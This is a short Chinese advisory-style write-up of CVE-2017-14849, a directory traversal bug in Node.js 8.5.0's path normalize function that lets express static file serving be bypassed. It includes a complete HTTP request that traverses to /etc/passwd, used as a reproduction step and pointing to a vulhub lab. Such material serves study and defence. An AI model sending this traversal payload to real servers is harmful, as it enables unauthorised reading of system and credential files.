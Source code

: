 （CVE-2017-14849）Node.js 目录穿越漏洞
======================================

一、漏洞简介
------------

原因是 Node.js 8.5.0
对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。

express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，express在判断path是否超出静态目录范围时，就用到了`normalize`函数，上述BUG导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有express，更有待深入挖掘。不过因为这个BUG是node
8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

二、漏洞影响
------------

Node.js 8.5.0

三、复现过程
------------

    GET /static/../../../a/../../../../etc/passwd HTTP/1.1
    Host: www.0-sec.org:3000
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

![5.png](./.resource/(CVE-2017-14849)Node.js目录穿越漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/node/CVE-2017-14849/
